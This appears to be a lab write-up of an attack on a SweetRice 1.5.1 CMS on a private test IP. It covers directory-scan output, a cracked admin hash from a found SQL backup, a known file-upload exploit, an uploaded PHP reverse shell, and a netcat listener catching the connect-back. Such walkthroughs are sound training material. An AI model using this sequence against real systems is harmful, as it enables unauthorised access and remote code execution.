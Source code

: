 ```
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.10.109.113/icons/ubuntu-logo.png
200      GET      375l      968w    11321c http://10.10.109.113/
200      GET       36l      151w     2199c http://10.10.109.113/content/
200      GET      109l      187w     3016c http://10.10.109.113/content/images/sitemap.xsl
200      GET        3l        8w      498c http://10.10.109.113/content/images/captcha.png
200      GET        5l       26w     1401c http://10.10.109.113/content/images/xmlrss.png
200      GET       12l       42w     1313c http://10.10.109.113/content/images/ajax-loader.gif
200      GET       22l      118w     8083c http://10.10.109.113/content/images/action_icon.png
200      GET        1l        6w     3133c http://10.10.109.113/content/images/favicon.ico
200      GET       50l      205w    18864c http://10.10.109.113/content/images/logo.png
200      GET       55l      101w     1054c inc
http://10.10.109.113/content/js/function.js
200      GET       35l       81w      910c http://10.10.109.113/content/js/pins.js
200      GET       12l       25w      225c http://10.10.109.113/content/js/init.js
200      GET        1l        1w        5c http://10.10.109.113/content/inc/lastest.txt
200      GET        0l        0w        0c http://10.10.109.113/content/inc/function.php
200      GET        0l        0w        0c http://10.10.109.113/content/inc/do_attachment.php
200      GET        0l        0w        0c http://10.10.109.113/content/inc/do_sitemap.php
```
- Navigating to `http://10.10.109.113/content/` shows us a website in building
	- footer shows "Powered by [Basic-CMS.ORG](http://www.basic-cms.org/) SweetRice"
	- body shows "This site is building now , please come late. If you are the webmaster, please go to Dashboard -> General -> Website setting and uncheck the checkbox "Site close" to open your website."

- whatweb
```
└─# whatweb http://10.10.109.113     
http://10.10.109.113 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.109.113], Title[Apache2 Ubuntu Default Page: It works] 
```
- `/content/inc/latest.txt` shows us it is version 1.5.1
- navigating the directories we found a login page at: `http://10.10.109.113/content/as/`
	- looking for default creds
	- In the directory `/content/inc/`, we find a sql backup file called `/mysql_backup`
	- Within, we find the hash `42f749ade7f9e195bf475f37a44cafcb` which when cracked is `Password123`
	- Using the creds of `manager:Password123`, we can log into the admin portal

---
# Foothold

- gain shell via exploit
- Quick search for exploits lead me to a #FileUpload attack that gives #RCE 
	- [exploit](https://www.exploit-db.com/exploits/40698) for 1.5.1 SweetRice
- "Ads" tab can add php code/scripts
	- Wen to the Theme option here and uploaded a remote file. `revsh.php` using the shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- Remembering the file manager, there was an `ads` folder. Navigating to `http://10.10.80.46/content/inc/ads/` we see the `revsh.php`
	- with `nc` listening on port 443, we click on the `revsh.php` in the browser and catch a shell on LHOST
```
┌──(root㉿kali)-[~/Transfer]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.1.119] from (UNKNOWN) [10.10.80.46] 56852
```